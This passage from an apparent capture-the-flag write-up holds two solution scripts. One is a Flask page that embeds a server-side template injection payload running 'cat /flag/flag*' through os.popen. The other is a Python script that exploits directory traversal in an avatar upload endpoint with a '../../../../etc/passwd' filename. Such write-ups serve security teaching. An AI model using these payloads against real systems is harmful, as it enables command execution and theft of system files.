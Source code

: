 ```python:solution/server.py
from flask import Flask

app = Flask(__name__)

@app.route("/@example.com")
def index():
    return """
<a id="l" download="x.html">x</a>
<script>
    const text = `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag/flag*').read() }}`;
    l.href = "data:text/plain;charset=utf-8;base64," + btoa(unescape(encodeURIComponent(text)));
    window.addEventListener("load", () => {
        l.click();
    })
</script>
    """
if __name__ == "__main__":
    app.run(port=9911)
```

## [web] Nextbox

### Overview

This is a blackbox challenge for website that uses Next.js.

![](/assets/blog/07ctf_2025/image.png)


### Solution

There is a directory traversal vulnerability in `POST /api/profile/avatar`. 

```python
import requests
import random
URL = "http://nextbox.ctf.0bscuri7y.xyz/"

s = requests.session()
user = {
    'username': random.randbytes(16).hex(),
    'password': 'xx',
    'firstName': 'ああ',
    'lastName': 'ああ',
    'email': 'xx@a.com',
}
r = s.post(URL + 'api/auth/register', json=user, verify=False)
r = s.post(URL + 'api/auth/login', json=user, verify=False)

token = r.json()["token"]
s.headers={
    "Authorization": f"Bearer {token}",
}


r = s.post(URL + 'api/profile/avatar', files={
    "avatar": ("../../../../etc/passwd", "bar", 'image/png')
}, verify=False)
print(r.status_code)
print(r.text)

r = s.get(URL + 'api/get-avatar', verify=False)
print(r.status_code)
```